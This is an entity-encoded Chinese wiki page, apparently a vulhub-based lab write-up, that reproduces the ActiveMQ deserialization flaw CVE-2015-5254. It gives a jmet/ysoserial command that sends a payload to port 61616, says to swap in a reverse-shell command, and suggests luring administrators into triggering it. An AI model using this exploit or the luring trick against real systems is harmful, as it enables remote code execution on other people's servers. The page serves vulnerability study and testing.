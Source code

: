 <h1 id="&#xFF08;cve-2015-5254&#xFF09;activemq-&#x53CD;&#x5E8F;&#x5217;&#x5316;&#x6F0F;&#x6D1E;">&#xFF08;CVE-2015-5254&#xFF09;ActiveMQ &#x53CD;&#x5E8F;&#x5217;&#x5316;&#x6F0F;&#x6D1E;</h1>
<h2 id="&#x4E00;&#x3001;&#x6F0F;&#x6D1E;&#x7B80;&#x4ECB;">&#x4E00;&#x3001;&#x6F0F;&#x6D1E;&#x7B80;&#x4ECB;</h2>
<p>Apache ActiveMQ 5.13.0&#x4E4B;&#x524D;5.x&#x7248;&#x672C;&#x4E2D;&#x5B58;&#x5728;&#x5B89;&#x5168;&#x6F0F;&#x6D1E;&#xFF0C;&#x8BE5;&#x6F0F;&#x6D1E;&#x6E90;&#x4E8E;&#x7A0B;&#x5E8F;&#x6CA1;&#x6709;&#x9650;&#x5236;&#x53EF;&#x5728;&#x4EE3;&#x7406;&#x4E2D;&#x5E8F;&#x5217;&#x5316;&#x7684;&#x7C7B;&#x3002;&#x8FDC;&#x7A0B;&#x653B;&#x51FB;&#x8005;&#x53EF;&#x501F;&#x52A9;&#x7279;&#x5236;&#x7684;&#x5E8F;&#x5217;&#x5316;&#x7684;Java Message Service(JMS)ObjectMessage&#x5BF9;&#x8C61;&#x5229;&#x7528;&#x8BE5;&#x6F0F;&#x6D1E;&#x6267;&#x884C;&#x4EFB;&#x610F;&#x4EE3;&#x7801;&#x3002;</p>
<h2 id="&#x4E8C;&#x3001;&#x6F0F;&#x6D1E;&#x5F71;&#x54CD;">&#x4E8C;&#x3001;&#x6F0F;&#x6D1E;&#x5F71;&#x54CD;</h2>
<p>Apache ActiveMQ 5.13.0&#x4E4B;&#x524D;&#x7684;5.x&#x7248;&#x672C;</p>
<h2 id="&#x4E09;&#x3001;&#x590D;&#x73B0;&#x8FC7;&#x7A0B;">&#x4E09;&#x3001;&#x590D;&#x73B0;&#x8FC7;&#x7A0B;</h2>
<p>&#x6F0F;&#x6D1E;&#x5229;&#x7528;&#x8FC7;&#x7A0B;&#x5982;&#x4E0B;&#xFF1A;</p>
<ol>
<li>&#x6784;&#x9020;&#xFF08;&#x53EF;&#x4EE5;&#x4F7F;&#x7528;ysoserial&#xFF09;&#x53EF;&#x6267;&#x884C;&#x547D;&#x4EE4;&#x7684;&#x5E8F;&#x5217;&#x5316;&#x5BF9;&#x8C61;</li>
<li>&#x4F5C;&#x4E3A;&#x4E00;&#x4E2A;&#x6D88;&#x606F;&#xFF0C;&#x53D1;&#x9001;&#x7ED9;&#x76EE;&#x6807;61616&#x7AEF;&#x53E3;</li>
<li>&#x8BBF;&#x95EE;web&#x7BA1;&#x7406;&#x9875;&#x9762;&#xFF0C;&#x8BFB;&#x53D6;&#x6D88;&#x606F;&#xFF0C;&#x89E6;&#x53D1;&#x6F0F;&#x6D1E;</li>
</ol>
<p>&#x4F7F;&#x7528;<a href="https://github.com/ianxtianxt/jmet" target="_blank">jmet</a>&#x8FDB;&#x884C;&#x6F0F;&#x6D1E;&#x5229;&#x7528;&#x3002;&#x9996;&#x5148;&#x4E0B;&#x8F7D;jmet&#x7684;jar&#x6587;&#x4EF6;&#xFF0C;&#x5E76;&#x5728;&#x540C;&#x76EE;&#x5F55;&#x4E0B;&#x521B;&#x5EFA;&#x4E00;&#x4E2A;external&#x6587;&#x4EF6;&#x5939;&#xFF08;&#x5426;&#x5219;&#x53EF;&#x80FD;&#x4F1A;&#x7206;&#x6587;&#x4EF6;&#x5939;&#x4E0D;&#x5B58;&#x5728;&#x7684;&#x9519;&#x8BEF;&#xFF09;&#x3002;</p>
<p>jmet&#x539F;&#x7406;&#x662F;&#x4F7F;&#x7528;ysoserial&#x751F;&#x6210;Payload&#x5E76;&#x53D1;&#x9001;&#xFF08;&#x5176;jar&#x5185;&#x81EA;&#x5E26;ysoserial&#xFF0C;&#x65E0;&#x9700;&#x518D;&#x81EA;&#x5DF1;&#x4E0B;&#x8F7D;&#xFF09;&#xFF0C;&#x6240;&#x4EE5;&#x6211;&#x4EEC;&#x9700;&#x8981;&#x5728;ysoserial&#x662F;gadget&#x4E2D;&#x9009;&#x62E9;&#x4E00;&#x4E2A;&#x53EF;&#x4EE5;&#x4F7F;&#x7528;&#x7684;&#xFF0C;&#x6BD4;&#x5982;ROME&#x3002;</p>
<p>&#x6267;&#x884C;&#xFF1A;</p>
<pre class="language-"><code>java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y &quot;touch /tmp/success&quot; -Yp ROME your-ip 61616
</code></pre><p><img src="img/5.png" alt="image"></p>
<p>&#x6B64;&#x65F6;&#x4F1A;&#x7ED9;&#x76EE;&#x6807;ActiveMQ&#x6DFB;&#x52A0;&#x4E00;&#x4E2A;&#x540D;&#x4E3A;event&#x7684;&#x961F;&#x5217;&#xFF0C;&#x6211;&#x4EEC;&#x53EF;&#x4EE5;&#x901A;&#x8FC7;<code>http://your-ip:8161/admin/browse.jsp?JMSDestination=event</code>&#x770B;&#x5230;&#x8FD9;&#x4E2A;&#x961F;&#x5217;&#x4E2D;&#x6240;&#x6709;&#x6D88;&#x606F;&#xFF1A;</p>
<p><img src="img/6.png" alt="image"></p>
<p>&#x70B9;&#x51FB;&#x67E5;&#x770B;&#x8FD9;&#x6761;&#x6D88;&#x606F;&#x5373;&#x53EF;&#x89E6;&#x53D1;&#x547D;&#x4EE4;&#x6267;&#x884C;&#xFF0C;&#x6B64;&#x65F6;&#x8FDB;&#x5165;&#x5BB9;&#x5668;<code>docker-compose exec activemq bash</code>&#xFF0C;&#x53EF;&#x89C1;/tmp/success&#x5DF2;&#x6210;&#x529F;&#x521B;&#x5EFA;&#xFF0C;&#x8BF4;&#x660E;&#x6F0F;&#x6D1E;&#x5229;&#x7528;&#x6210;&#x529F;&#xFF1A;</p>
<p><img src="img/7.png" alt="image"></p>
<p>&#x5C06;&#x547D;&#x4EE4;&#x66FF;&#x6362;&#x6210;&#x5F39;shell&#x8BED;&#x53E5;&#x518D;&#x5229;&#x7528;&#xFF1A;</p>
<p><img src="img/8.png" alt="image"></p>
<p>&#x503C;&#x5F97;&#x6CE8;&#x610F;&#x7684;&#x662F;&#xFF0C;&#x901A;&#x8FC7;web&#x7BA1;&#x7406;&#x9875;&#x9762;&#x8BBF;&#x95EE;&#x6D88;&#x606F;&#x5E76;&#x89E6;&#x53D1;&#x6F0F;&#x6D1E;&#x8FD9;&#x4E2A;&#x8FC7;&#x7A0B;&#x9700;&#x8981;&#x7BA1;&#x7406;&#x5458;&#x6743;&#x9650;&#x3002;&#x5728;&#x6CA1;&#x6709;&#x5BC6;&#x7801;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#xFF0C;&#x6211;&#x4EEC;&#x53EF;&#x4EE5;&#x8BF1;&#x5BFC;&#x7BA1;&#x7406;&#x5458;&#x8BBF;&#x95EE;&#x6211;&#x4EEC;&#x7684;&#x94FE;&#x63A5;&#x4EE5;&#x89E6;&#x53D1;&#xFF0C;&#x6216;&#x8005;&#x4F2A;&#x88C5;&#x6210;&#x5176;&#x4ED6;&#x5408;&#x6CD5;&#x670D;&#x52A1;&#x9700;&#x8981;&#x7684;&#x6D88;&#x606F;&#xFF0C;&#x7B49;&#x5F85;&#x5BA2;&#x6237;&#x7AEF;&#x8BBF;&#x95EE;&#x7684;&#x65F6;&#x5019;&#x89E6;&#x53D1;&#x3002;</p>
<h2 id="&#x53C2;&#x8003;&#x94FE;&#x63A5;">&#x53C2;&#x8003;&#x94FE;&#x63A5;</h2>
<blockquote>
<p><a href="https://vulhub.org/#/environments/activemq/CVE-2015-5254/" target="_blank">https://vulhub.org/#/environments/activemq/CVE-2015-5254/</a> </p>
</blockquote>
<footer class="page-footer"><span class="copyright">&#x96F6;&#x7EC4;&#x8D44;&#x6599;&#x6587;&#x5E93; all right reserved&#xFF0C;powered by 0-sec.org</span><span class="footer-modification">&#x672A;&#x7ECF;&#x6388;&#x6743;&#x7981;&#x6B62;&#x8F6C;&#x8F7D;
2020-02-24 21:13:42
</span></footer>
<script>console.log("plugin-popup....");document.onclick = function(e){ e.target.tagName === "IMG" && window.open(e.target.src,e.target.src)}</script><style>img{cursor:pointer}</style>